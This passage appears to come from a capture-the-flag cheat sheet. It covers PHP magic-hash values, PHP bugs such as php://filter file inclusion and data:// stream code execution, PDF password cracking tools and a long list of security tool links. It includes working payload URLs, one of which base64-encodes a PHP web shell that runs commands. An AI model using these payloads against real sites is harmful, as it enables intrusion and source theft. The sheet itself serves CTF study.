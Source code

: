 
| Plaintext | SHA1 Hash |
| --------- | --------- |
|aaroZmOk|0e66507019969427134894567494305185566735|
|aaK1STfY|0e76658526655756207688271159624026011393|
|aaO8zKZF|0e89257456677279068558073954252716165668|
|aa3OFF9m|0e36977786278517984959260394024281014729|


* `preg_replace`

	A bug in older versions of [PHP] where the user could get remote code execution
	
	[http://php.net/manual/en/function.preg-replace.php](http://php.net/manual/en/function.preg-replace.php)


* [`phpdc.phpr`][phpdc.phpr]

	A command-line tool to decode [`bcompiler`][bcompiler] compiled [PHP] code.


* [`php://filter` for Local File Inclusion](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/)

	A bug in [PHP] where if GET HTTP variables in the URL are controlling the navigation of the web page, perhaps the source code is `include`-ing other files to be served to the user. This can be manipulated by using [PHP filters](http://php.net/manual/en/filters.php) to potentially retrieve source code. Example like so:

```
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index
```


* `data://text/plain;base64`

	A [PHP] stream that can be taken advantage of if used and evaluated as an `include` resource or evaluated. Can be used for RCE: check out this writeup: [https://ctftime.org/writeup/8868](https://ctftime.org/writeup/8868) ... TL;DR:

```
http://103.5.112.91:1234/?cmd=whoami&page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4=
``` 


PDF Files
-------------

* `pdfinfo`	
	
	A command-line tool to get a basic synopsis of what the [PDF] file is.

* `pdfcrack`

	A comand-line tool to __recover a password from a PDF file.__ Supports dictionary wordlists and bruteforce.


[steghide]: http://steghide.sourceforge.net/
[snow]: http://www.darkside.com.au/snow/
[cribdrag.py]: https://github.com/SpiderLabs/cribdrag
[cribdrag]: https://github.com/SpiderLabs/cribdrag
[pcap]: https://en.wikipedia.org/wiki/Pcap
[PCAP]: https://en.wikipedia.org/wiki/Pcap
[Wireshark]: https://www.wireshark.org/
[Network Miner]: http://www.netresec.com/?page=NetworkMiner
[PCAPNG]: https://github.com/pcapng/pcapng
[pcapng]: https://github.com/pcapng/pcapng
[pdfcrack]: http://pdfcrack.sourceforge.net/index.html
[GitDumper.sh]: https://github.com/internetwache/GitTools
[pefile]: https://github.com/erocarrera/pefile
[Python]: https://www.python.org/
[PE]: https://en.wikipedia.org/wiki/Portable_Executable
[Portable Executable]: https://en.wikipedia.org/wiki/Portable_Executable
[hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[QR code]: https://en.wikipedia.org/wiki/QR_code
[QR codes]: https://en.wikipedia.org/wiki/QR_code
[QR]: https://en.wikipedia.org/wiki/QR_code
[zbarimg]: https://linux.die.net/man/1/zbarimg
[Linux]: https://en.wikipedia.org/wiki/Linux
[Ubuntu]: https://en.wikipedia.org/wiki/Ubuntu_(operating_system)
[Wine]: https://en.wikipedia.org/wiki/Wine_(software)
[Detect DTMF Tones]: http://dialabc.com/sound/detect/index.html
[dnSpy]: https://github.com/0xd4d/dnSpy
[Windows]: https://en.wikipedia.org/wiki/Microsoft_Windows
[.NET]: https://en.wikipedia.org/wiki/.NET_Framework
[Vigenere Cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[Playfair Cipher]: https://en.wikipedia.org/wiki/Playfair_cipher
[bcompiler]: http://php.net/manual/en/book.bcompiler.php
[PHP]: https://en.wikipedia.org/wiki/PHP
[GET]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[pdfdetach]: https://www.systutorials.com/docs/linux/man/1-pdfdetach/
[sqlmap]: https://github.com/sqlmapproject/sqlmap
[hachoir-subfile]: https://pypi.python.org/pypi/hachoir-subfile/0.5.3
[wget]: https://en.wikipedia.org/wiki/Wget
[git]: https://git-scm.com/
[Cross-site scripting]: https://en.wikipedia.org/wiki/Cross-site_scripting
[XSS]: https://en.wikipedia.org/wiki/Cross-site_scripting
[HTML]: https://en.wikipedia.org/wiki/HTML
[JavaScript]: https://en.wikipedia.org/wiki/JavaScript
[PEiD]: https://www.aldeid.com/wiki/PEiD
[wpscan]: https://wpscan.org/
[Ruby]: https://www.ruby-lang.org/en/
[Wordpress]: https://en.wikipedia.org/wiki/WordPress
[dumpzilla]: http://www.dumpzilla.org/
[hexed.it]: https://hexed.it/
[Magic Numbers]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Magic Number]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Edit This Cookie]: http://www.editthiscookie.com/
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
[formatStringExploiter]: http://formatstringexploiter.readthedocs.io/en/latest/index.html
[format string vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[printf vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[Java]: https://en.wikipedia.org/wiki/Java_(programming_language)
[JAR]: https://en.wikipedia.org/wiki/JAR_(file_format)
[OpenStego]: https://www.openstego.com/
[Stegsolve.jar]: http://www.caesum.com/handbook/stego.htm
[Stegsolve]: http://www.caesum.com/handbook/stego.htm
[PcapXray]: https://github.com/Srinivas11789/PcapXray
[Atbash Cipher]: https://en.wikipedia.org/wiki/Atbash
[TestDisk]: https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2
[PNG]: https://en.wikipedia.org/wiki/Portable_Network_Graphics
[jd-gui]: https://github.com/java-decompiler/jd-gui
[dex2jar]: https://github.com/pxb1988/dex2jar
[apktool]: https://ibotpeaches.github.io/Apktool/
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[remote code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[arbitrary code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[XSStrike]: https://github.com/UltimateHackers/XSStrike
[nishang]: https://github.com/samratashok/nishang
[Malboge]: https://en.wikipedia.org/wiki/Malbolge
[Piet]: https://esolangs.org/wiki/Piet
[npiet]: https://www.bertnase.de/npiet/
[LC4]: https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html
[Empire]: https://github.com/EmpireProject/Empire
[Base64]: https://en.wikipedia.org/wiki/Base64
[Base32]: https://en.wikipedia.org/wiki/Base32
[Base85]: https://en.wikipedia.org/wiki/Ascii85
[fcrackzip]: https://github.com/hyc/fcrackzip
[zsteg]: https://github.com/zed-0xff/zsteg
[jsteg]: https://github.com/lukechampine/jsteg
[jstego]: https://sourceforge.net/projects/jstego/
[StegCracker]: https://github.com/Paradoxis/StegCracker
[Base41]: https://github.com/sveljko/base41/blob/master/python/base41.py
[Base65535]: https://github.com/qntm/base65536
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2